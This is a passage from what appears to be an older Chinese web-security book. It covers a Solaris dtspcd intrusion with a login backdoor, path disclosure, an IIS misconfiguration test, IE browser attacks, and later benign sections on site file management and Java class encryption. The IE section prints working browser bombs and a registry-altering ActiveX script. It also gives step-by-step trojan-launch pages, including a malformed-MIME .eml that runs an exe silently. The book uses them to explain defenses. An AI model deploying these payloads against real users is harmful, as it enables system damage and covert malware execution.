-rwxr-xr-x 1 root other 6416 Jul 4 10:52 login
-rwxr-xr-x 1 root other 1392 Jun 22 18:20 login.c
drwx------ 5 500 500 2048 Jul 8 11:59 nmap-2.54BETA1
-rwxr-xr-x 1 root other 2058240 Jun 19 2000 nmap-2.54BETA1.tar
......
-rwxr-xr-x 1 root other 29696 Jun 19 2000 wipe.tar

```

不得了，在这里发现很多工具！通常攻击者的攻击程序都会放到“肉鸡”上，我猜测该入侵者的攻击程序也应该放到这台机器上，我尝试使用grep命令查看是否真的存在该攻击程序。

```
bash
# grep "/usr/sbin/inetd -s /tmp/.x" ./*
./dtspcex: -i">/tmp/.x;/usr/sbin/inetd -s /tmp/.x; /bin/rm -f /tmp/.x
./dtspcex.c: "/usr/sbin/inetd -s /tmp/.x; /bin/rm -f /tmp/.x";

```

果然在这里。我们来看看这是一个什么程序：

```
bash
# more ./dtspcex.c


```
```

以上程序是一个攻击Solaris Dtspcd服务的远程攻击程序，看起来这个程序就是用来攻击这台机器的攻击程序。再分析一下其他程序，又发现了一个login.c程序，大家看看这是个什么程序呢？

```
bash
# cat ./login.c

```


看明白没有？原来是一个Login后门。看来入侵者都喜欢留下再次进入的后门。看看我们系统现在的/bin/login是怎样的？

```
text
# strings /bin/login
DISPLAY
/usr/sbin/login
/bin/sh
再看看 /usr/sbin/login 文件
# strings /usr/sbin/login
/usr/lib/snmp/.bin
[file]
find
file_filters
[ps]
……
@(#) Copyright (c) 1980, 1987, 1988 The Regents of the University of California.
All rights reserved.
@(#)login.c
5.32.1.1 (Berkeley) 1/28/89
Login incorrect
%C% %M% %I% %E% %U%

```

果然，真正的/bin/login程序已经被移动到/usr/sbin/login了，现在的/bin/login分明就是一个在Telnet时使用DISPLAY参数作为密码的后门程序，这个程序只要在Telnet前定义环境DISPLAY的值为指定的密码Letmein，远程Telnet进入系统时就不必使用账号和密码登录了。

#### 三、总结

从以上分析可知，这是一个典型的Solaris入侵事件，入侵者就是使用CDE的Dtspcd远程漏洞攻击进去的，Dtspcd使用到的端口为TCP 6112，有关该安全问题的介绍请看：

> http://www.cert.org/advisories/CA-2002-01.html

其实作为系统管理员，不但要保证系统服务正常运行，还要保证系统的安全运行。以下是给网管的忠告：

+   1. 系统一定要及时打补丁。这次遇上的是一个脚本男孩，如果遇到高手，可能就不容易发现这些入侵行为了。
2. 装完系统，最好先对关键文件做个备份并做md5sum，以后怀疑出问题时拿这些对照，可以很容易找到入侵点。

# 6.9 泄露路径泄露

路径泄露（Path Disclosure）是属于低风险等级（Low Risk）一类的缺陷，它的危害一般被描述为“攻击者可以利用此漏洞得到的信息对系统进行进一步的攻击”，提供Web、FTP、SMTP等公共服务的服务器都有可能出现物理路径泄露的问题。

我们比较常见的是与Web服务器有关的路径泄露公告。导致Web服务器路径泄露的原因有很多，可能是Web平台本身、脚本语言解释器、引擎插件、组件、辅助程序等一些原因造成的，但最有可能的是脚本编写错误导致的。很多时候，攻击者精心构造一个畸形的、超长的或不存在的文件请求，而这个请求是Web服务器没有预料且不能正确处理的，这时往往会返回出错信息，最直观的就是暴露物理路径。譬如，对于很多CGI论坛来说，提交一个不存在的CGI文件请求，或者提交一个没有输出的CGI文件的请求，它们会将网站本身所在的物理路径给暴露出来。笔者做过很多试验，的确非常轻松就可以拿到对方网站的物理路径。

得到物理路径到底有什么用？这是很多攻击者关心的问题。如果把“路径泄露”这个缺陷分化出去单独讨论，那肯定没有什么意义。但把它放到完整的人侵过程中来看，有些时候的确能给攻击者带来一些有用的信息，比如说：可以大致了解系统的文件目录结构；可以看出系统所使用的第三方软件；也说不定你因此得到了一个合法的用户名（因为很多人把自己的名字作为网站的目录名）。另外，就是很多时候你的攻击程序需要对方完整的物理路径。当然，当你发现路径是系统的默认路径时，你可能会说：哦，管理员的安全水平很低啊……也许你认为这些不值什么，但很多人侵行为持续绕了几个大圈子无功而返后，最后却还是利用了一个自己忽略的小缺陷成功了！漏洞无处不在，发现它是门艺术，利用它同样是门艺术。

那如何在Web服务中避免路径泄露？漏洞虽小，但惧“千里之堤，溃于蚁穴”。方法是有的，我这里还是现实点，拿大多数朋友选用的Web平台IIS来说，首先你得保证使用最新版本并打了最新补丁，包括IIS、脚本语言解释器（如Activeperl）、引擎插件、组件、辅助程序；其次是配置方面的问题，首当其冲的是“检查文件是否存在”，具体是：IIS/站点/属性/主目录/配置/应用程序映射/编辑/检查文件是否存在，这样做不仅可避免“请求不存在文件”泄露路径，还可阻挡一些其他攻击，如拒绝服务或溢出攻击。还记得NSFOCUS发现ActivePerl所带的一个动态链接库(perlIS.dll)在处理超长文件名时存在的一个缓冲区溢出漏洞吗？最简单的解决方法就是检查文件是否存在。再者便是要求程序员编写规范脚本，这是最重要的。错误处理是各种语言编程中一个很重要的必不可少的部分，虽然每种语言都提供了完善的出错处理函数，但你也得正确使用它，如Perl中的“die”函数，如果没有在错误信息后面加上“\n”的话，就很可能导致物理路径泄露。然而，脚本程序员却一直忽略了这些问题，任何时候程序员都应该做好充分的考虑，给出完整的出错处理方案。

后记：路径泄露是个广泛存在的缺陷，要彻底完整地分析它需要很多方面的知识，可惜的是一直没人来专门讨论这个问题。我们今天在此希望可以抛砖引玉，希望在这方面有比较深入研究的朋友继续投稿讨论。

### 6.10 IIS配置不当的危害性

测试服务器域名：www.perlchina.com

虚拟主机域名：www.ilcatperl.org

#### 前言

现在比较流行的架设Web服务的解决方案一般为Linux+apache或Windows Servers + IIS，由于

[PAGE 225]

Windows Servers+IIS架设简单，所以一些小的站点普遍使用了这样的架设结构。随着租用虚拟服务器的个人用户增多，很多站点都提供了虚拟主机服务。但是当IIS配置不当的话，很容易就会被别人利用，并且通过一些简单的技巧就可以很容易地得到站点的最高控制权限，其后果是可想而知的。本文通过一次IIS安全测试来看看网络安全的重要性。测试前我得到了站点的测试权限，所以可以安心测试。

注：注意在测试一个站点的安全之前最好先得到站长的同意，以免引起不必要的麻烦。

#### 一、对服务器的测试

大概浏览了一下http://www.ilcatperl.org，发现站长hoowa增加了一个新的功能：在线短消息。根据经验，新的程序往往会有很多Bug，所以我觉得应该以这个新功能作为测试的出发点。进入短消息页面，发现一切很正常，不过我确信程序一定会存在有问题。连续F5刷新了几次，程序仍然正常运行，不过这时Web页面的下方出现了程序抛出的错误：

“DBI::db=HASH(0x237d280)->disconnect invalidates 1 active statement handle (either destroy statement handles or call finish on them before disconnecting) at D:/dosmart/cgi-bin/iLcatPerl_nkweb/library/iLcatlib.pm line 248.”

下面我们来分析一下：DBI::db说明网站使用了Perl的标准数据库访问模块DBI，HASH(0X237d280)意味着这返回的是个哈希结构的内存地址；Disconnect invalidates这个错误估计是程序结束的时候忘记关闭数据库的连接引起的；再看“D:/dosmart/cgi-bin/iLcatPerl_nkweb/library/iLcatlib.pm line 248”这个错误消息，这对于入侵者来说可是非常重要的信息了，很明显这暴露了站点服务器的操作系统类型：Windows Servers，并且返回了站点的绝对路径、CGI文件存放路径以及这个站点使用的CGI程序的解释程序的类型（应该是在Windows下比较流行的Perl发行版本——Activeperl公司的Activeperl）。

现在得到的这些信息好像还不能对站点构成什么威胁，但这时我又注意到错误消息中的“iLcatlib.pm”，这个好像不是Activeperl中的内部模块，看来应该是站长自己写的专用模块。习惯性地在IE浏览器栏提交了如下请求：

“http://www.ilcatperl.org/library/iLcatlib.pm”

没想到浏览器马上返回了这个程序的所有源代码，但代码中并没有什么程序的配置信息，可以看出这个模块是数据库访问的接口和对一些公用的子程序的封装。

根据经验，我感觉可能是IIS设置有问题，于是在自己机器的IIS测试了一番，经过反复的折腾，终于发现了问题的所在。运行Internet服务管理器程序，配置IIS虚拟目录，把本地路径下面的[v]读取，变为[ ]读取，这样像.pm等其他扩展名也就不会被IE读取了。问题虽然发现了，但是这个设置不当所造成的危害我们还没看到，你将会在下面看到其危害性。

#### 二、服务器程序配置不当的危害

每个程序员开发程序都有自己的规范，特别是都有自己程序运行时的配置文件。很多写Perl/CGI的程序员喜欢使用以.pm文件作为程序运行时的配置文件，在Windows也有喜欢使用.ini作为程序运行时配置文件的。通过这些经验和得到的错误消息，我发现iLcatlib.pm并不是配置文件，所以索性地访问了几个ini文件。提交请求“http://www.ilcatperl.org/library/hoowa.ini”，返回错误，又尝试了几个文件还是错误，最后终于通过“http://www.ilcatperl.org/library/ilcatperl.ini”返回了一些有用信息。下面，我们来看看我们得到了什么：（忽略了一些非重要的参数）

```
ini
[path]
# 文件路径
cgipath=*
# 数据备份文件的路径
dumppath=*
# 数据库信息
database=*
dbhost=*

```

[PAGE 226]

```
text
dbuser=*
dbpwd=*
# 系统配置
weburl=http://hoowa.tab.net.cn

```

还好，站长注释得很明白，其中*号为注释掉的重要信息，这里不便透露。从返回信息中，我们不难看出“database=*”是数据库的名字，dbhost是主机的IP地址，dbuser、dbpw是数据库的用户名和该用户名对应的密码，里面还有一些其他配置信息。这样，可以说我们已经得到了虚拟主机的完全控制权限。如果我们再花一点时间应该完全可以得到这个服务器的最高权限。

注：本文测试的服务器已经没有上述安全性问题，所以请不要对本文涉及的服务器做非法的测试。

后记：可以看出，如果服务器配置稍有不当，便很可能被轻易入侵，并且可能进一步暴露服务器上的机密文件（建议一些商业机密文件和重要的文件不要存放在提供Web服务的服务器上），这其中的危险是不言而喻的，建议每个网络管理员注意服务器配置的安全性和完整性。

# ## 6.11 IE黑客常见攻击防范揭秘

浏览网页是大多数网民上网操作的最多的活动了，可是你在浏览网页获取各种信息时，是否知道你浏览的网页可能存在的“陷阱”，特别是使用Internet Explorer 5.0的用户，更要小心，因为它存在着许多安全隐患，黑客可以利用这些IE的漏洞制作出特定的网页攻击浏览的用户，本文就曝光一些常见的网页攻击原理。下面就让我们来看看黑客是如何具体利用的，网友们又该如何防范。

# ### 一、炸你没商量——网页炸弹

# #### 1. Javascript炸弹

IE内嵌了Javascript的功能，现在网上有些无聊之人用Javascript写了许多恶意小程序，网民们如果浏览了带有这些小程序的网页就会遭到攻击，导致内存和CPU超负荷，甚至死机。这种Javascript炸弹有很多，我们这里只简单地介绍几种。

+   * 窗口炸弹

```
html


```

网民浏览这个网页后，IE就会打开无数个新的窗口（图6-11-1），直至内存耗尽。

+   * 图片炸弹

```
html
</a></p>

```

这个炸弹发了一幅“特大”的图片，会让浏览的机器的CPU超负荷。

+   * 背景炸弹

```
html
<script>
var color = new Array;
color[1] = "black";
color[2] = "white";

```

[PAGE 227]


图6-11-1

```
javascript
for(x = 0, x <3; x++)
{document.bgColor = color[x];if(x == 2){x = 0;}}
</script>

```

这个炸弹会让对方的窗口背景颜色在“黑白”两色之间急速无限地更换，使整个屏幕激烈抖动，非常可怕哦。

##### 2. con/con死机炸弹

Windows 9x的con\con漏洞大家也许听说过吧，就是当Windows 98操作系统解释一个如“c:\[device]\[device]”这样的路径，来调用FAT32\VFAT内核程序时，很可能会导致其上的一些本地或远程的应用程序崩溃，出现系统“蓝屏”，并最终导致整个系统的崩溃死机，只有重新启动才能恢复正常。有5个设备驱动程序可被利用来做此攻击：con、nul、aux、clock$和config$。而其他驱动程序都不会产生影响，所以本地与远程用户通过使用一个指向特殊的设备驱动器的路径串，如con/nul、nul/con、aux/nul……的组合对攻击Windows 9x都很有效。

所以，在网页里隐藏一个指向[dirve]:\con\con或[dirve]:\nul\nul的图像路径，当查看该网页时，也会使Windows 98崩溃死机。具体代码如下：

```
html
<html>
<body>

<!-- or nul\nul, clock\clock$ -->
<!-- or aux\aux, config$\config$ -->
</body>
</html>

```

把这个网页代码用html格式发邮件给别人；如果此人用的是Windows 98；那么他一打开这封信，系统就会马上崩溃。不过，这个漏洞对Windows NT、Windows2000、Netscape（网景）浏览器无效。

#### 二、罪大恶极——格式化硬盘网页

利用了IE5.0的ActiveX控件的一个漏洞，网页可以创建和复写地文件，可以将html应用程序文件中的可执行程序添加到Windows 9x的开始菜单中。该机器下次启动时，程序就会执行；这虽然是个老漏洞，但杀伤力却是极大，甚至可以格式化硬盘，只要在网页中具体加入如下代码：

```
[出于安全原因，代码块内容已省略]
```

</object>这段表示利用特定WINDOWS SHELL的注册写建立一个ActiveX的程序，这里建立了一个名为death.hta的ActiveX应用程序，并通过“scr.Path="c:\\windows\\Start Menu\\Programs\\启动\\death.hta"”这句将其放入了windows98的开始菜单的启动栏中，使得该机器下次启动时此程序就会执行。而这个新的ActiveX程序death.hta的具体内容就是格式化硬盘了，我们从上面的程序中可以看到这个程序一连用了3句wsh.Run('start /m format drive: /autotest /u')来分别格式化C、D、E盘（够狠的），而用start /m，使得程序以最小化的方式运行，所以用户不容易发现。用参数/autotest，会在某个驱动器上自动运行format而不再需要经过用户的确认。参数/u是：无条件格式化，并且不保存原来盘上的信息，从而使得无法用unformat命令恢复。除此之外，为了制造假象，这个程序还加了alert("windows系统出错……")的代码，这段代码会使得在程序运行时系统就出现“Windows系统出错，修复程序正在进行修复，这可能需要几分钟”的假消息来欺骗用户不要打断其格式化进程。

这样，使用Windows 9x用户浏览了这个网页的话，它的c:\windows\startmenu\programs\启动\中就会生成一个名为death.hta的ActiveX应用程序，用户重启了计算机后，再进入Windows 98桌面不久，就会跳出3个最小化的格式化硬盘的DOS窗口和“Windows系统出错，修复……”的假消息（图6-11-2），真可怕吧，而且它的格式化是自动进行，速度很快，等你反应过来强行结束程序时，格式化过程早就


图6-11-2

[PAGE 229]

已经开始了，硬盘数据也被破坏了：

#### 三、卑鄙无耻——网页修改注册表

含有特殊代码的ActiveX网页文件还能修改注册表，修改注册表意味着什么，大家该知道吧，注册表是存储计算机软硬件的配置信息的数据库，修改它，轻的像桌面隐藏等恶作剧，重则系统瘫痪，很可怕哦。像前段时间闹得沸沸扬扬的“万花谷”病毒和“混客炸弹”的基本原理就是如此，它们把注册表许多重要键值都改了。但我们这里只是为了说明原理，举个简单的例子：修改Windows 9x的IE标题栏并隐藏桌面，代码如下：

```
javascript
<SCRIPT Language=JavaScript>
document.write("<applet height=0 width=0 code=com.ms.activeX.ActiveXComponent>");
function f(){
  try {
    // ActiveX initialization
    a1=document.applets[0];
    a1.setCLSID("{F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
    a1.createInstance(); Shl = a1.GetObject();
    a1.setCLSID("{0D43FE01-F093-11CF-8940-00A0C9054228}");
    a1.createInstance(); FSO = a1.GetObject();
    a1.setCLSID("{F935DC26-1CF0-11D0-ADB9-00C04FD58A0B}");
    a1.createInstance(); Net = a1.GetObject();
    try {
      if (document.cookie.indexOf("Chg") == -1) {
        Shl.RegWrite("HKLM\\Software\\Microsoft\\Internet Explorer\\Main\\Window Title", "IE标题被我改了");
        Shl.RegWrite("HKCU\\Software\\Microsoft\\Internet Explorer\\Main\\Window Title", "IE标题被我改了");
        Shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoDesktop", "00000001", "REG_DWORD");
        var expdate = new Date((new Date()).getTime() + (1));
        document.cookie="Chgg=general; expires=" + expdate.toGMTString() + "; path=/;";
      }
    }
    catch(e) {}
  }
  catch(e) {}
}
function init() {
  setTimeout("f()", 1000);
}
init();

```

代码中的“Shl.RegWrite”后就是具体被修改## 网络攻击与防护措施

### 木马攻击

一种是名为muma.htm的文件，内容如下：

```html
<html>
<script language="javascript">
run_exe="<OBJECT ID=\"RUNIT\" WIDTH=0 HEIGHT=0 TYPE=\"application/x-oieobject\""
run_exe+="CODEBASE=\"muma.exe#version=1,1,1,1\">"
run_exe+="<PARAM NAME=\"_Version\" value=\"65536\">"
run_exe+="</OBJECT>"
run_exe+="<HTML><H1>网页加载中，请稍后....</H1></HTML>";
document.open();
document.clear();
document.writeln(run_exe);
document.close();
</script>
</html>
```

另一个是名为muma.exe的木马，当我们浏览这个html文件时，就会看到“网页加载中，请稍后……”，同时，我们的那个同路径下的muma.exe文件也会被执行，但是执行前IE的安全警告会跳出来，用户一般不会愿意冒这个险，所以这种攻击方法不是最危险的。下面这种方法就危险了，不会有任何提示。

这种方法利用的是IE处理异常MIME头的漏洞，至于原理已经有太多叙述了，这里只介绍具体实现方法，黑客会先将一个小巧的exe文件做成一个.eml的文件，然后利用MIME漏洞让一个html的页面执行这个.eml文件，你的那个小巧的exe文件就被执行了。先创建如下一个.eml的文件：

```html
From: "xxx" <xxxx@xxx.xxx>
To: "xxx" <xxxx@xxx.xxx>
Subject: xxxx
Date: Tue, 7 Apr 2001 15:16:57 +800
MIME-Version: 1.0
Content-Type: multipart/related;
 type="multipart/alternative";
 boundary="1"
X-Priority: 3
X-MSMail-Priority: Normal
X-Unsent: 1.
---1
```

[PAGE 231]

```html
Content-Type: multipart/alternative;
boundary="2"
---2
Content-Type: text/html;
charset="gb2312"
Content-Transfer-Encoding: quoted-printable
<HTML>
<HEAD>
</HEAD>
<BODY bgColor=3D#ffffff>
<iframe src=3Dcid:THE-CID height=3D0 width=3D0></iframe>
</BODY>
</HTML>
---2---

```

```html
---1
Content-Type: audio/x-wav;  <==（错误的MIME头）
name="木马名.exe"
Content-Transfer-Encoding: base64
Content-ID: <THE-CID>
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAA
（base64 编码软件的编码）
```

由于exe文件转换后base64编码代码过长而省略了，建议木马不要超过20K，至于如何将exe文件转换成base64编码，不用说了吧，你可以用OE带上木马附件先给自己发封信，然后将这封信导出为.eml文件再进行编辑就行了。接着，我们再来建立一个启动.eml木马的网页文件，内容如下：

```html
<html>
<head>
<title>
</title>
</head>
<body>
<SCRIPT LANGUAGE="JAVASCRIPT">
setTimeout("document.location.href='你取的名字.eml'",0000);
</SCRIPT><center><font color='#FF0000' size='7'>
</font>
</center>
</body>
</html>
```

然后，把这两个文件放到主页空间的同一路径下，当有人浏览这个网页文件时，EML中的木马就会毫无提示地执行，所以这种方法就比较危险。但如果用户装了realplay，超级解霸等媒体播放软件，wav文件类型被这些播放器关联，遇到这些文件播放器会自动打开，那木马就不会执行。

### 网页欺骗

网页欺骗就是黑客建立某个Web站点网页的“影子拷贝”，这个拷贝虽然表面上具有与原Web站点内容和链接，但实际上这个Web页的某些数据和链接已经被黑客修改了。用户访问这些链接时会先经过黑客控制的主机，接着黑客便可以监控用户整个HTTP请求过程了，他会窃取用户的账号和口令等信息，甚至假冒用户给服务器发送数据，也可以假冒服务器给用户发送假信息。

制作假网页很简单，因为黑客只要去要假冒的站点拷贝所有的内容并随站点的更新而更新就行了。当然，拷贝下来的网页要改写所有的URL，使得这些URL指向黑客的服务器，而不是真的服务器。我们假设黑客控制的服务器是www.hacker.com，而原来的网页上的URL是http://www.target.com，那么攻击者会把这些原来URL改成http://www.hacker.com/http://www.target.com。这样，当用户点击URL时，浏览器实际上请求的是从www.hacker.com来的网页。而这个URL的后半部分是告诉我们黑客的服务器去哪里取得真正所要的网页。当然，当用户请求的网页经过黑客的服务器时，黑客随时编写个脚本就可以改写这个页面里所有的URL，这样当用户向服务器提交一些返回界面时点击的还是经过黑客修改的链接，还是要经过黑客的服务器而且这些URL的改写不会在页面发生任何变化，用户很难发觉，这时用户已经陷入了一个黑客编制的假Web陷阱中，永远不能离开。

用户一旦访问了黑客做的假网页后，所有与服务器的通讯就要通过黑客的服务器了，那黑客就可以在他的机器上用黑客工具监视和控制一切了。黑客用监控程序就可以窃取到用户的账户和口令，接着便偷看或删除信箱里的信件。如果黑客做的假网页是某个在线商务网站，而用户使用它来进行网上定货的话，黑客会重仿商务网站的表单给用户，当然其中的价格等自然不会是真的，用户提交的返回表单黑客也会修改编辑其产品号、数量及接收地址等信息，这时用户的损失就惨重了。而如果是其他更加重要的如网上银行、证券交易等，那就更危险了。

### 远离网页攻击

其实，黑客网页攻击的手段还有很多，像HAPPYTIME的网页病毒，利用chm文件执行任意程序，利用IE5.0漏洞读取客户机上的文件等等攻击。我们这里由于篇幅所限未能提及，文中介绍的只是一部分，不过相信通过上面的讲述，大家应该已经对IE的安全隐患有了足够的认识和重视。现在，我们再来说说防护措施吧。

+   1. 要避免恶意网页，首先是不要轻易去一些自己并不了解的小站点。其次，在IE设置中将ActiveX插件和控件、Java脚本等全部禁止就可以避免中招。具体方法是：在IE窗口中点击“工具->Internet选项”，在弹出的对话框中选择“安全”标签，再点击“自定义级别”按钮，就会弹出“安全设置”对话框，把其中所有ActiveX插件和控件以及Java相关全部选择“禁用”即可（图6-11-4）。在Windows 2000下把服务器里面的远程注册表操作服务“Remote Registry Service”禁用就可以了。方法是点击“管理工具—>服务—>Remote Registry Service(允许远程注册表操作)，将这一项禁用。

(2) 所有的漏洞都是建立在系统漏洞的前提下，大家应该多升级多打补丁，像现在win9x用户最好使用IE6.0，当然你甚至可以不要使用IE，改换网景的浏览器。同时，目前的许多杀毒软件已经把恶意网页列为查杀对象，我们可以借助于它们，并尽量通过升级到最新病毒库，来预防该类恶意网页的侵害。

(3) 网页欺骗虽然不易发现，但只要你仔细点，也有蛛丝马迹可寻，如网页的状态栏、地址栏在用户点向一个链接时会显示具体的URL，地址栏更是明显，会显示出整个真实的URL，还有网页原码也会暴露黑客的阴谋。

### 6.12 浅谈网站文件的管理

辛辛苦苦做好一个网站，弄出一大堆的文件，要是对这些文件管理得不好，日后维护的时候可就麻烦了。在这里，笔者凭着自己的一点经验，给大家谈一下网站文件的管理问题。

#### 一、文件的命名

首先要给文件和文件夹取一个好名字，好让自己知道哪些文件有什么用。这一步很重要，有些人往往不注意，随随便便就取一个文件名，时间长了，也就不知道哪些文件有用，有什么用，哪些文件没有用了。因此我们一定要养成认真给文件命名的好习惯。

另外要注意几点：

+   1. 尽量采用英文、数字、符号结合的文件名，不要采用中文文件名，因为许多浏览器和服务器不支持中文文件名。
2. 注意默认首页的文件名。对于不同的服务器，默认首页的文件名是不同的。例如index.htm、index.html等。如果默认首页文件名不正确，网站将不能使用域名直接访问。关于详细的默认首页文件名，可以询问你的服务器提供商。
3. 文件名的大小写。与Windows类的主机不同，Unix类的主机对大小写敏感。比如abc.htm和ABC.htm对于Windows类的主机是同一文件，但是对于Unix类的主机就是两个不同的文件。如果你使用的是Unix类的主机，就要注意文件名的大小写。

#### 二、文件布局

所谓文件布局，就是指怎么样把文件放在适当的位置、适当的文件夹里，方便日后维护网站，对文件进行管理。当然，不能把文件全部堆在根目录下，我们需要按照一定规律建立一些文件夹，把文件按类别放在相应的文件夹里，这样就方便管理了。通常我们根据两种规律建立文件夹：文件类型和网站栏目。

按文件类型，简单说来就是把HTML文件放在一个HTML文件夹，图片放在一个图片文件夹，MP3放在一个MP3文件夹里等等，按照文件的类型，相同类型文件放在同一文件夹。

按网站栏目，就是按照你的网站的栏目来建立文件夹，每个栏目建立一个文件夹，将同一栏目中的文件集中放在同一文件里。

两种方法各有优点和不足，我们通常都是两种方法结合使用，尽量做到方便管理。

由于一个网站通常有其他的组件，例如文章管理系统、文件下载系统、论坛、留言簿等。如果是把这些程序安装在自己的服务器上，文件的布局也应该讲究一下。只要使不同程序之间的文件不发生冲突，各个文件有独立的运行目录就可以了。对于CGI程序要特别说明一下，一般的主机都有一个独立的cgi-bin文件夹来运行CGI程序，放在其他的目录是不可运行的。详细的情形会由于主机和程序的不同而不同；大家最好向自己的服务器提供商索取相关资料并仔细阅读文件说明，在对文件布局时，也应当将这一点考虑进去。

#### 三、相关技巧

下边再说一些小技巧，可以方便维护管理，也可以方便访问者浏览你的网站。

+   1. 许多人都喜欢按照栏目分类以后，在相应的文件夹下面建立默认首页，这样就可以用域名加文件夹名来访问，如 http://www.cnyimeng.com/txt（下面所讲内容以此为例）。前面说过 Unix 类的主机对文件大小写敏感，如果使用 HTTP://WWW.CNYIMENG.COM/TXT 就不能访问到 http://www.cnyimeng.com/txt，那么岂不是要建立两个相同内容的文件夹？其实没有这个必要，这样做也不方便日后的维护。我们可以在 txt 文件夹里面建立我们的栏目，然后建立 TXT 文件夹，里面的默认首页自动转向 http://www.cnyimeng.com/txt 就可以了。用一个转向的页面就可以实现，网上有许多代码，大家不想找的话就用下面这个吧：

```html
<script>top.location="http://www.cnyimeng.com/txt"</script>
```

其中的 http://www.cnyimeng.com/txt 改成你要转向的地址。将上面的代码保存成 HTML 文件就可以了。

+   2. 多页面的相同部分调用同一个文件，这也是很实用的技巧。例如每个页面的页头、页尾都是相同，要做改动的话，每个页面都进行修改就很不方便，这样我们就可以在页面相同的部分调用同一文件，那样只要改动一个文件，所有页面的相应部分都会被修改。通常做法有两种：链接 JS 文件和使用分帧（如果有可能，使用 ASP、CGI 等程序，效果更好）。大家如果不会的话，可以在网上搜索相应的教程，这里就不说详细方法了，因为内容比较多，只简单说一下基本思路。

网站文件管理会涉及到很多方面，本文只是简单地谈谈对文件管理的经验和技巧。

### 6.13 Java源代码保护

#### 一、为什么要加密

对于传统的 C 或 C++ 之类的语言来说，要在 Web 上保护源代码是很容易的，只要不发布它就可以。遗憾的是，Java 程序的源代码很容易被别人偷看。只要有一个反编译器，任何人都可以分析别人的代码。Java 的灵活性使得源代码很容易被窃取，但与此同时，它也使通过加密保护代码变得相对容易，我们唯一需要了解的就是 Java 的 ClassLoader 对象。当然，在加密过程中，有关 Java Cryptography Extension（JCE）的知识也是必不可少的。

有几种技术可以“模糊” Java 类文件，使得反编译器处理类文件的效果大打折扣。然而，修改反编译器使之能够处理这些经过模糊处理的类文件并不是什么难事。所以，不能简单地依赖模糊技术来保证源代码的安全。

我们可以用流行的加密工具加密应用，比如 PGP（Pretty Good Privacy）或 GPG（GNU Privacy Guard）。这时，最终用户在运行应用之前必须先进行解密。但解密之后，最终用户就有了一份不加密的类文件，这和事先不进行加密没有什么差别。

Java 运行时装入字节码的机制含蓄地意味着可以对字节码进行修改。JVM 每次装入类文件时都需要一个称为 ClassLoader 的对象，这个对象负责把新的类装入正在运行的 JVM。JVM 给 ClassLoader 一个包含了待装入类（比如 java.lang.Object）名字的字符串，然后由 ClassLoader 负责找到类文件，装入原始数据，并把它转换成一个 Class 对象。

#### 二、定制类装入器

每一个运行着的 JVM 已经拥有一个 ClassLoader。这个默认的 ClassLoader 根据CLASSPATH环境变量的值，在本地文件系统中寻找合适的字节码文件。应用定制 ClassLoader 要求对这个过程有较为深入的认识，首先我们必须创建一个定制 ClassLoader 类的实例，然后显式地要求它装入另外一个类。这就强制 JVM 把该类以及所有它所需要的类关联到定制的 ClassLoader。Listing 1 显示了如何用定制 ClassLoader 装入类文件。

```java
ClassLoader myClassLoader = new myClassLoader();

Class myClass = myClassLoader.loadClass("mypackage.MyClass");

Object newInstance = myClass.newInstance();

MyClass 所需要的所有其他类，都将通过定制的 ClassLoader 自动装入
```

定制 ClassLoader 只需先获取类文件的数据，然后把字节码传递给运行时系统，由后者完成余下的任务。ClassLoader 有几个重要的方法。创建定制的 ClassLoader 时，我们只需要覆盖其中的一个，即 loadClass，提供获取原始类文件数据的代码。这个方法有两个参数：类的名字，以及一个表示 JVM 是否要求解析类名字的标记（即是否同时装入有依赖关系的类）。如果这个标记是 true，我们只需在返回 JVM 之前调用 resolveClass。

```java
public Class loadClass(String name, boolean resolve) throws ClassNotFoundException {
    try {
        // 我们要创建的 Class 对象
        Class clazz = null;

        // 必需的步骤 1：如果类已经在系统缓冲之中，
        // 我们不必再次装入它
        Class<?> clasz = findLoadedClass( name );
        if (clasz != null)
            return clasz;
        // 下面是定制部分
        byte classData[] = /* 通过某种方法获取字节码数据 */;
        if (classData != null) {
            // 成功读取字节码数据，现在把它转换成一个 Class 对象
            clasz = defineClass( name, classData, 0, classData.length );
        }
        // 必需的步骤 2：如果上面没有成功，
        // 我们尝试用默认的 ClassLoader 装入它
        if (clasz == null)
            clasz = findSystemClass( name );
        // 必需的步骤 3：如有必要，则装入相关的类
        if (resolve && clasz != null)
            resolveClass( clasz );
        // 把类返回给调用者
        return clasz;
    } catch( IOException ie ) {
        throw new ClassNotFoundException( ie.toString() );
    } catch( GeneralSecurityException gse ) {
        throw new ClassNotFoundException( gse.toString() );
    }
}
```

代码中的大部分对所有 ClassLoader 对象来说都一样，但有一小部分（已通过注释标记）是特有的。在处理过程中，ClassLoader 对象要用到其他几个辅助方法：

- findLoadedClass：用来进行检查，以便确认被请求的类当前还不存在。loadClass 方法应该首先调用它。
- defineClass：获得原始类文件字节码数据之后，调用 defineClass 把它转换成一个 Class 对象。任何 loadClass 实现

  都必须调用这个方法。
- findSystemClass：提供默认 ClassLoader 的支持。如果用来寻找类的定制方法不能找到指定的类（或者有意地不用定制方法），则可以调用该方法尝试默认的装入方式。这是很有用的，特别是从普通的 JAR 文件装入标准 Java 类时。
- resolveClass：当 JVM 想要装入的不仅包括指定的类，而且还包括该类引用的所有其他类时，它会把 loadClass 的 resolve 参数设置成 true。这时，我们必须在返回 JVM 之前调用 resolveClass。

#### 三、加密、解密

Java 加密扩展即 Java Cryptography Extension，简称 JCE。它是 Sun 的加密服务软件，包含了加密和密钥生成功能。JCE 是 JCA（Java Cryptography Architecture）的一种扩展。JCE 没有规定具体的加密算法，但提供了一个框架，加密算法的具体实现可以作为服务提供者加入。除了 JCE 框架之外，JCE 软件包还包含了 SunJCE 服务提供者，其中包括许多有用的加密算法，比如 DES（Data Encryption Standard）和 Blowfish。在本文中，我们将用 DES 算法加密和解密字节码。下面是用 JCE 加密和解密数据必须遵循的基本步骤：

+   1. 生成一个安全密钥。在加密或解密任何数据之前需要有一个密钥。

[PAGE 236]

```java
KeyGenerator keyGen = KeyGenerator.getInstance("DES");
keyGen.init(56);
SecretKey originalKey = keyGen.generateKey();
SecretKey key = new SecretKeySpec(originalKey.getEncoded(), "DES");
```

+   2. 创建一个 Cipher 对象，指定要使用的加密算法和解密算法。

```java
Cipher cipher = Cipher.getInstance("DES");
```

+   3. 设置 Cipher 的工作模式（如：加密模式或解密模式）和填充模式（如：PKCS5Padding 或 NoPadding）。

```java
cipher.init(Cipher.ENCRYPT_MODE, key);
